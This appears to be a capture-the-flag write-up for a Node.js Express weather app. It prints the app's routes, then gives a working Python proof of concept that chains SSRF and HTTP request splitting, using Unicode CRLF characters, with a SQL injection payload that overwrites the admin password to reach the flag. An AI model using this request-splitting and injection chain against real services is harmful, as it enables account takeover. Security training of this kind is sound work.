

**index.js File:**

```js
   1   │ const path              = require('path');
   2   │ const fs                = require('fs');
   3   │ const express           = require('express');
   4   │ const router            = express.Router();
   5   │ const WeatherHelper     = require('../helpers/WeatherHelper');
   6   │ 
   7   │ let db;
   8   │ 
   9   │ const response = data => ({ message: data });
  10   │ 
  11   │ router.get('/', (req, res) => {
  12   │     return res.sendFile(path.resolve('views/index.html'));
  13   │ });
  14   │ 
  15   │ router.get('/register', (req, res) => {
  16   │     return res.sendFile(path.resolve('views/register.html'));
  17   │ });
  18   │ 
  19   │ router.post('/register', (req, res) => {
  20   │ 
  21   │     if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
  22   │         return res.status(401).end();
  23   │     }
  24   │ 
  25   │     let { username, password } = req.body;
  26   │ 
  27   │     if (username && password) {
  28   │         return db.register(username, password)
  29   │             .then(()  => res.send(response('Successfully registered')))
  30   │             .catch(() => res.send(response('Something went wrong')));
  31   │     }
  32   │ 
  33   │     return res.send(response('Missing parameters'));
  34   │ });
  35   │ 
  36   │ router.get('/login', (req, res) => {
  37   │     return res.sendFile(path.resolve('views/login.html'));
  38   │ });
  39   │ 
  40   │ router.post('/login', (req, res) => {
  41   │     let { username, password } = req.body;
  42   │ 
  43   │     if (username && password) {
  44   │         return db.isAdmin(username, password)
  45   │             .then(admin => {
  46   │                 if (admin) return res.send(fs.readFileSync('/app/flag').toString());
  47   │                 return res.send(response('You are not admin'));
  48   │             })
  49   │             .catch(() => res.send(response('Something went wrong')));
  50   │     }
  51   │     
  52   │     return re.send(response('Missing parameters'));
  53   │ });
  54   │ 
  55   │ router.post('/api/weather', (req, res) => {
  56   │     let { endpoint, city, country } = req.body;
  57   │ 
  58   │     if (endpoint && city && country) {
  59   │         return WeatherHelper.getWeather(res, endpoint, city, country);
  60   │     }
  61   │ 
  62   │     return res.send(response('Missing parameters'));
  63   │ }); 
  64   │ 
  65   │ module.exports = database => { 
  66   │     db = database;
  67   │     return router;
  68   │ };
```

## Code Analysis
We will find that there are 4 routes available in the code, we can know that this is a node.js application with Express Applied:


Check the routing code of `/register`:

```js
  15   │ router.get('/register', (req, res) => {
  16   │     return res.sendFile(path.resolve('views/register.html'));
  17   │ });
  18   │ 
  19   │ router.post('/register', (req, res) => {
  20   │ 
  21   │     if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
  22   │         return res.status(401).end();
  23   │     }
  24   │ 
  25   │     let { username, password } = req.body;
  26   │ 
  27   │     if (username && password) {
  28   │         return db.register(username, password)
  29   │             .then(()  => res.send(response('Successfully registered')))
  30   │             .catch(() => res.send(response('Something went wrong')));
  31   │     }
  32   │ 
  33   │     return res.send(response('Missing parameters'));
  34   │ });
```
As we can see that if a user wants to register, they must meet these conditions:

- Only requests originating from the same machine (localhost) are allowed.
  
Check the routing code of `/login`:

```js
  36   │ router.get('/login', (req, res) => {
  37   │     return res.sendFile(path.resolve('views/login.html'));
  38   │ });
  39   │ 
  40   │ router.post('/login', (req, res) => {
  41   │     let { username, password } = req.body;
  42   │ 
  43   │     if (username && password) {
  44   │         return db.isAdmin(username, password)
  45   │             .then(admin => {
  46   │                 if (admin) return res.send(fs.readFileSync('/app/flag').toString());
  47   │                 return res.send(response('You are not admin'));
  48   │             })
  49   │             .catch(() => res.send(response('Something went wrong')));
  50   │     }
  51   │     
  52   │     return re.send(response('Missing parameters'));
  53   │ });
```

We can see that if you log in with the Admin User we can access `/app/flag` and get the flag otherwise it sends you a message `'you are not admin'`.

## Ideas
We will be using SSRF to attack the program, and the point of exploitation is obvious here.


We can try to make additional http requests by truncating characters.
```js
%27 —> ‘
%22 —> “
\u0120 —> (space)
\u010D —> \r
\u010A —> \n
```
## Intrusión

Useful load

Update password to admin user via sql query.
```sql
‘) ON CONFLICT (username) DO UPDATE SET password = ‘passwd123’; —
```

Write the POC
```py
   1   │ import requests
   2   │ 
   3   │ username = 'admin'
   4   │ password = "') ON CONFLICT (username) DO UPDATE SET password = 'passwd123';--"
   5   │ 
   6   │ username = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
   7   │ password = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
   8   │ 
   9   │ endpoint = "127.0.0.1/" + "\u0120" + "HTTP/1.1" + "\u010D\u010A"  +  "Host:" + "\u0120"\
  10   │     + "127.0.0.1" + "\u010D\u010A" + "\u010D\u010A" + "POST" + "\u0120" + "/register" +\
  11   │     "\u0120" + "HTTP/1.1" + "\u010D\u010A" + "Host:" + "\u0120" + "127.0.0.1" + "\u010D\u010A"\
  12   │     + "Content-Type:" + "\u0120" + "application/x-www-form-urlencoded" + "\u010D\u010A" + \
  13   │     "Content-Length:" + "\u0120" + str(len(username) + len(password) + 19) + \
  14   │     "\u010D\u010A" + "\u010D\u010A" + "username=" + username + "&password=" + password\
  15   │     + "\u010D\u010A" + "\u010D\u010A" + "GET" + "\u0120"
  16   │ 
  17   │ requests.post('http://167.172.62.51:32440/api/weather', json={'endpoint': endpoint, 'city': 'lol', 'countr
       │ y': 'lol'})
```
Execute the POC
```py
$ python3 exploit.py
```
